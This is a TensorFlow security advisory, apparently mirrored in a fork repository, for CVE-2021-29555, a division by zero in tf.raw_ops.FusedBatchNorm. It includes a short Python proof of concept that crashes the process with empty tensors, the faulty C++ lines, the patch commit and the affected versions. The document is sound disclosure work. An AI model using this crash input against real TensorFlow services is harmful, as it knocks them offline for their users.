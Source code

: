 ## TFSA-2021-043: Division by 0 in `FusedBatchNorm`

### CVE Number
CVE-2021-29555

### Impact
An attacker can cause a denial of service via a FPE runtime error in
`tf.raw_ops.FusedBatchNorm`:

```python
import tensorflow as tf

x = tf.constant([], shape=[1, 1, 1, 0], dtype=tf.float32)
scale = tf.constant([], shape=[0], dtype=tf.float32)
offset = tf.constant([], shape=[0], dtype=tf.float32)
mean = tf.constant([], shape=[0], dtype=tf.float32)
variance = tf.constant([], shape=[0], dtype=tf.float32)
epsilon = 0.0
exponential_avg_factor = 0.0
data_format = "NHWC"
is_training = False

tf.raw_ops.FusedBatchNorm(
    x=x, scale=scale, offset=offset, mean=mean,
    variance=variance, epsilon=epsilon,
    exponential_avg_factor=exponential_avg_factor,
    data_format=data_format, is_training=is_training)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/828f346274841fa7505f7020e88ca36c22e557ab/tensorflow/core/kernels/fused_batch_norm_op.cc#L295-L297)
performs a division based on the last dimension of the `x` tensor:

```cc
const int depth = x.dimension(3);
const int rest_size = size / depth;
```

Since this is controlled by the user, an attacker can trigger a denial of
service.

### Patches
We have patched the issue in GitHub commit
[1a2a87229d1d61e23a39373777c056161eb4084d](https://github.com/galeone/tensorflow/commit/1a2a87229d1d61e23a39373777c056161eb4084d).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
